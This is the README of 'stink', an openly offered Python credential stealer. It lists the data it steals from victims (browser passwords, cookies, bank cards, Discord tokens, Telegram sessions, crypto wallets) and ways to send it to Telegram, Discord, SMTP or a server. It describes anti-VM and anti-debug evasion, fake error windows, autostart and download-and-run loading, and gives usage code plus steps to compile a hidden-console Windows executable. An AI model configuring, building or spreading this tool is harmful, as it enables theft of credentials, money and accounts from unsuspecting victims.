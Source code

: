 # stink

Stealer in just a few lines with sending to Telegram / Server / Discord / SMTP. No dependencies, only built-in libraries.

**Wiki:** https://github.com/FallenAstaroth/stink/wiki

## Description
The `stink` already has an impressive functionality that will only expand.

## Navigation
* [Current features](#Сurrent-features)
* [Example usage](#Example-usage)
  * [Standard](#Standard)
  * [Certain modules](#Certain-modules)
  * [Additional parameters](#Additional-parameters)
* [Creating exe](#Creating-exe)
  * [Creating executable file](#Creating-executable-file)
  * [With BAT](#With-BAT)
  * [With CMD](#With-CMD)

### Current features
1. Support for the following browsers:
   - Chrome
   - Opera
   - Opera GX
   - Edge
   - Brave
   - Vivaldi
   - Yandex (Partially)
2. Collecting the following data:
   - Screenshot
   - Cookies
   - Passwords
   - Bank cards
   - History
   - Bookmarks
   - IP-address
   - System configuration
   - Active processes
   - Discord tokens
   - Telegram sessions
   - FileZilla hosts
   - Crypto wallets:
       - Metamask
       - Phantom
       - Atomic
       - Exodus
       - Other 10 wallets
   - Steam configs
3. Built-in sending methods: 
   - Telegram
   - Server
   - Discord
   - SMTP
4. Support for browser multiprofiles.
5. Execution in a separate thread.
6. Execution using multiprocessor.
7. Possibility to add to autostart.
8. Showing a window with a fake error.
9. Execution without creating any files.
10. Downloading and launching files by link.
11. Collecting files of the specified format in the specified directories.
12. Stopping work on virtual machines and when trying to debug.

## Example usage
### Standard
```python
from stink import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```
### Certain modules

An example with only system data collection and screenshot.
```python
from stink import Stealer, Features, Senders

if __name__ == '__main__':
    Stealer(
        senders=[
            Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)
        ], 
        features=[
            Features.system,
            Features.screenshot
        ]
    ).run()
```
### Additional parameters

- `features` - list of modules from `stink.Features`:

  - `passwords` - collecting passwords.

  - `cookies` - collecting cookies.

  - `cards` - collecting bank cards.

  - `history` - collecting search history.

  - `bookmarks` - collecting bookmarks.

  - `extensions` - collecting browser extensions.

  - `processes` - collecting active processes.

  - `system` - collecting system configuration.

  - `screen` - screenshot.

  - `discord` - collecting Discord tokens.

  - `telegram` - collecting Telegram sessions.

  - `filezilla` - collecting FileZilla hosts.

  - `wallets` - collecting crypto wallets.

  - `steam` - collecting Steam configs.


- `utils` - list of utilities from `stink.Utils`:

  - `autostart` - adding to autostart.

  - `message` - showing a fake [error window](https://github.com/FallenAstaroth/stink/wiki/Fake-error).


- `protectors` - list of protectors from `stink.Protectors`:

  - `processes` - checking processes for presence of debugging programs and virtual machines.

  - `mac_address` - checking MAC addresses for blacklisting.

  - `computer` - checking PC name for blacklisting.

  - `user` - checking username for blacklisting.

  - `hosting` - checking if PC is hosted.

  - `http_simulation` - checking for HTTP simulation.

  - `virtual_machine` - checking for virtual machine.

  - `disable` - complete disabling of all checks.

  - `all` - enabling of all checks.


- `senders` - list of sending methods from `stink.Senders`:

  - `server` - sending to [server](https://github.com/FallenAstaroth/stink/wiki/Server).

  - `telegram` - sending to [Telegram](https://github.com/FallenAstaroth/stink/wiki/Telegram-bot).

  - `discord` - sending to [Discord](https://github.com/FallenAstaroth/stink/wiki/Discord-hook).

  - `smtp` - send to [mail](https://github.com/FallenAstaroth/stink/wiki/Smtp).


- `loaders` - list of file loaders from `stink`:

  - `Loader` - universal [loader](https://github.com/FallenAstaroth/stink/wiki/Files-loader).


- `grabbers` - list of file grabbers from `stink`:

  - `Grabber` - universal [grabber](https://github.com/FallenAstaroth/stink/wiki/Collection-of-specific-files).
  
## Creating exe
Python is an interpreted programming language, so we first translate it into C and then compile it into an .exe file.
We will need Nuitka to do this.

### Creating executable file

1. [Download](https://github.com/FallenAstaroth/stink/archive/refs/heads/master.zip) archive.
2. Unpack the archive and go to the directory stink-master.
3. Create test.py (or any other name) file in the same directory with the following code:
```python
from stink import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```

#### With BAT
1. Run compiler.bat.


#### With CMD
1. Open `cmd`.
2. Type in the command:
```
pip install virtualenv
```
3. Go to the folder with the `test.py` file:
```
cd path\to\file
```
4. Create a virtual environment and activate it:
```
virtualenv venv
```
```
venv\Scripts\activate
```
5. Install the Nuitka:
```
pip install Nuitka==0.6.16.4
```
6. To reduce the file size, additionally install Zstandard (optional):
```
pip install zstandard==0.17.0
```
7. Write the command:
```
nuitka --onefile --plugin-enable=multiprocessing --windows-disable-console test.py
```

After executing the command we get the test.exe file with the hidden console.
